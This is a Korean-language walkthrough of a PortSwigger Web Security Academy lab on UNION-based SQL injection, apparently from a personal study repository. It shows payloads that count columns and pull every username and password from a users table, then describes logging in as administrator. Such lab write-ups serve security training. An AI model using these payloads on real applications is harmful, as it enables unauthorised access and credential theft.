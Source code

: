 # [PortSwigger]SQL Injection 05

https://portswigger.net/web-security/all-labs

## LAB
SQL 삽입 UNION 공격, 다른 테이블에서 데이터 검색

## Qusetion
이 연구소에는 제품 범주 필터에 SQL 삽입 취약점이 포함되어 있습니다. 쿼리의 결과는 응용 프로그램의 응답으로 반환되므로 UNION 공격을 사용하여 다른 테이블에서 데이터를 검색할 수 있습니다. 이러한 공격을 구성하려면 이전 실습에서 배운 몇 가지 기술을 결합해야 합니다.

데이터베이스에는 및 users라는 열이 있는 이라는 다른 테이블이 있습니다 . ***username password***

랩을 해결하려면 모든 사용자 이름과 암호를 검색 하는 SQL 주입 UNION ***administrator*** 공격을 수행하고 해당 정보를 사용하여 사용자로 로그인합니다.

## Solution

제품 범주 필터에 Union SQL Injection 취약점 확인

![](../img/Study%20Img/%5BPortSwigger%5DSQL%20Injection%2005%20-%201.png)

<br>

category 파라미터에 취약점 확인
```
' union select null --
' union select null,null --
```

![](../img/Study%20Img/%5BPortSwigger%5DSQL%20Injection%2005%20-%202.png)

<br>

컬럼 갯수 2개 확인

![](../img/Study%20Img/%5BPortSwigger%5DSQL%20Injection%2005%20-%203.png)

<br>

users 테이블의 username password 컬럼 조회

admin 아이디 비밀번호 획득

```
' union select username, password from users --
```

![](../img/Study%20Img/%5BPortSwigger%5DSQL%20Injection%2005%20-%204.png)

<br>

admin 계정으로 로그인 시도

![](../img/Study%20Img/%5BPortSwigger%5DSQL%20Injection%2005%20-%205.png)

<br>

admin 계정으로 로그인 성공 확인

![](../img/Study%20Img/%5BPortSwigger%5DSQL%20Injection%2005%20-%206.png)